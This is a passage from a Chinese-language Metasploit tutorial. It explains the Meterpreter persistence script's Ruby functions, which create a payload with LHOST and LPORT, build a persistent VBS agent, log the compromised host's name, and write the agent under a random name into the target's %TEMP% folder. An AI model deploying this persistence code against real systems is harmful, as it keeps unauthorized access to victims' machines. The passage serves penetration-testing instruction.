 下一个函数是用于创建有效载荷的。如果您想创建有效载荷（代码重用的力量），则可以直接在您的脚本中使用此函数。函数`create_payload()`接受两个值，即`payload_type`和`lport`。如果您记得变量声明部分，那么这两个变量已经初始化为一些默认值。

`pay = client.framework.payloads.create(payload)`调用允许我们从 Metasploit 框架中创建有效载荷。

在此片段中需要注意的一件事是`pay.datastore['LHOST'] = lhost`和`pay.datastore['LPORT'] = lport`。数据存储区只是一组值的哈希，可能被模块或框架本身用来引用程序员或用户控制的值。

```
# Function for Creating persistent script
#-------------------------------------------------------------------------------
def create_script(delay,altexe,raw)
if altexe
vbs = ::Msf::Util::EXE.to_win32pe_vbs(@client.framework, raw, {:persist => true, :delay => delay, :template => altexe})
else
vbs = ::Msf::Util::EXE.to_win32pe_vbs(@client.framework, raw, {:persist => true, :delay => delay})
end
print_status("Persistent agent script is #{vbs.length} bytes long")
return vbs
end 
```

下一个函数是用于创建持久脚本的。脚本是根据传递给脚本的有效载荷和其他参数值创建的。

```
# Function for creating log folder and returning log path
#-------------------------------------------------------------------------------
def log_file(log_path = nil)
#Get hostname
host = @client.sys.config.sysinfo["Computer"]
# Create Filename info to be appended to downloaded files
filenameinfo = "_" + ::Time.now.strftime("%Y%m%d.%M%S")
# Create a directory for the logs
if log_path
logs = ::File.join(log_path, 'logs', 'persistence', Rex::FileUtils.clean_path(host + filenameinfo) )
else
logs = ::File.join(Msf::Config.log_directory, 'persistence', Rex::FileUtils.clean_path(host + filenameinfo) )
end
# Create the log directory
::FileUtils.mkdir_p(logs)
#logfile name
logfile = logs + ::File::Separator + Rex::FileUtils.clean_path(host + filenameinfo) + ".rc"
return logfile
end 
```

下一个函数是用于为脚本创建日志目录的。`host = @client.sys.config.sysinfo["Computer"]`调用提取了受损目标的系统信息。使用负责执行文件和目录操作的 Rex::FileUtils 库创建了目录和文件名。

```
# Function for writing script to target host
#-------------------------------------------------------------------------------
def write_script_to_target(target_dir,vbs)
if target_dir
tempdir = target_dir
else
tempdir = @client.fs.file.expand_path("%TEMP%")
end
tempvbs = tempdir + "\\" + Rex::Text.rand_text_alpha((rand(8)+6)) + ".vbs"
fd = @client.fs.file.new(tempvbs, "wb")
fd.write(vbs)
fd.close
print_good("Persistent Script written to #{tempvbs}")
file_local_write(@clean_up_rc, "rm #{tempvbs}\n")
return tempvbs
```